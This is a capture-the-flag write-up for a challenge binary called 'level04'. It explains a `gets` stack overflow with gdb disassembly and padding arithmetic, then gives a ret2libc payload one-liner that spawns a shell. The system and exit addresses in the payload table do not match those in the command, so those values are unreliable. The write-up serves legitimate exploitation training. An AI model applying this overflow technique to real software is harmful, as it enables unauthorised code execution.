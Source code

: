 # Cant trace me (level04)

This [binary](source.c) is a simple case of `gets` being used and being as
vulnerable as ever. The all `fork`/`ptrace` setup just makes it hard to use gdb
on this program's child process. But this is not really needed. From gdb we
still can see how the stack looks like. We can compute how many bytes of padding
we need instead of seeing it empirically with test payloads as we do usually.

Since this is a classic `gets` buffer overflow we can overwrite by any number of
bytes we need, which means that we can simply execute a
[ret2libc](https://bufferoverflows.net/ret2libc-exploitation-example/) exploit.

```shell
# run gdb on the binary
gdb ./level04
(gdb) disass main
Dump of assembler code for function main:
   0x080486c8 <+0>:     push   %ebp
   0x080486c9 <+1>:     mov    %esp,%ebp
   0x080486cb <+3>:     push   %edi
   0x080486cc <+4>:     push   %ebx
   0x080486cd <+5>:     and    $0xfffffff0,%esp
   0x080486d0 <+8>:     sub    $0xb0,%esp
```

Two registers are pushed to the stack. Since this is a 32bit binary, this is 8
bytes of data. Then esp is aligned, so it is substracted by any value between 0
and 15 (inclusive). Then 0xb0 (176) is substracted from the esp pointer to
allocate the stack necessary to the _main_ function. So that's at least 184
bytes of stack for this function. The buffer given to `gets` starts at
exp + 0x20, which means we have to substract 32 bytes to get the length of the
stack we must overwrite to access _main_'s return address. Also we have to add 4
bytes because the goal is ebp + 4. So this amounts to: 8 + 176 - 32 + 4 = 156.
So we need at least 156 bytes of padding.

### Payload

| padding (156) | system (4) | exit (4)   | libc's "/bin/sh" string |
|---------------|------------|------------|-------------------------|
| 0x616161...   | 0xb7e6aed0 | 0xb7e5eb70 | 0xf7f897ec              |

```shell
(python -c 'print "a" * 156 + "\xf7\xe6\xae\xd0"[::-1] + "\xf7\xe5\xeb\x70"[::-1] + "\xf7\xf8\x97\xec"[::-1]'; cat) | ./level04
```

And it works ;)
